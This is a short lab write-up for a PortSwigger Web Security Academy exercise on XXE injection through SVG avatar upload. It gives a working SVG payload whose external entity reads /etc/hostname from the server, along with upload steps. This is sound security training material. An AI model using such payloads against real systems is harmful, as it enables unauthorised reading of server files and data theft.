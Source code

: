 ```yaml
---
title: 'Lab: Exploiting XXE via image file upload'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/XXE"
---
```


# Lab: Exploiting XXE via image file upload
<!-- more -->
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.
* Goal: To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the "Submit solution" button to submit the value of the server hostname.

## Recon
In this lab, we can upload an exploited file which contained malicious xml data. Then we can fetch some sensitive information.

## Exp - Upload Exploited File as Avatar
1. Create an exploit text file
We can create a text file contained the payload below
The exploited payload in `.svg` files:
```xml!
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns ="http://www.w3.org/2000/svg" xmlns:xlink ="http://www.w3.org/1999/xlink" version="1.1"><text fontsize="16" x="0" y="16">&xxe;</text></svg>
```
2. Transfer to `svg` file and upload it
After transfering to `.svg` file, we can choose arbitrary post and leave a comment below
![](https://i.imgur.com/gQt4HCF.png)

3. Check your avatar
Then you get back to post page and verified your avatar photo should contain a string which is your flag(sensitive data) that you must submit.
:::spoiler Success Screenshot
![](https://i.imgur.com/W3Jg2Xs.png)
:::

